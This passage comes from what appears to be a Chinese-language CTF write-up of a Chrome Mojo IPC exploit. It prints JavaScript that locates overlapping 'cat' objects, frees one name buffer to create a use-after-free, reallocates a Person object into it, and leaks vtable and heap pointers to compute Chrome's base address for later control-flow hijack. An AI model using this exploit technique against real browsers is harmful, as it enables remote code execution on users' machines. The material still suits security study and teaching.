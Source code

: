 ```js
    // find the evil cat and victim cat
    let evilIdx = -1;
    let evil = undefined;
    for(let i =0; i<catCount; i++){
        let name = (await catPtrArr[i].getName()).name;
        if (name != id2Str(i, stringSize)){
            evilIdx = i;
            evil = catPtrArr[i];
            break;
        }
    }

    if(evilIdx == -1) {
        console.log("[-] can't find overlap cat name")
        return;
    }
    let name = (await evil.getName()).name;
    let victimIdx = str2Id(name);
    let victim = catPtrArr[victimIdx];
    if (victimIdx<0 || victimIdx>=catCount) {
        console.log("[-] can't find overlap cat name")
        return;
    }
    console.log("[+] evil cat idx: "+evilIdx);
    console.log("[+] victim cat idx: "+victimIdx);
    console.log("[+] evil cat name: "+name);

```

然后我们释放掉`victim`的`name`字段，此时`evil`的`name`指针就成了悬空指针，再紧接着申请另一个对象（`Person`），这样就形成了`uaf`漏洞，可以通过`evil`的`name`指针泄露虚表指针以及堆指针，从而后续劫持控制流。

```js
        // change the victim cat's name, now the evil cat name pointer will be freed
    victim.setName('a'.repeat(stringSize*200));

    let ropBufferSize = 0x100;

    // create a personPtr, now the evil cat's name pointer point to the personPtr structure
    let triggerPersonPtr = (await mojoPtr.createPerson()).person;
    await triggerPersonPtr.setName('A'.repeat(ropBufferSize));

    // leak the data
    let leakData = (await evil.getName()).name;
    let personVtableAddr = getUint64(leakData, 0);
    let leakHeapAddr = getUint64(leakData, 0x18);

    let baseAddr = personVtableAddr - 0x8fc19c0n;
    let highAddr = baseAddr&BigInt(0xf00000000000)
    let lowAddr = baseAddr&BigInt(0x000000000fff)
    if((highAddr != BigInt(0x500000000000)) && lowAddr !=0 ) {
        console.log("[-] leak addr failed")
        return;
    }
    console.log("[+] chrome base addr: "+hex(baseAddr));
    console.log("[+] leak heap addr: "+hex(leakHeapAddr));
```
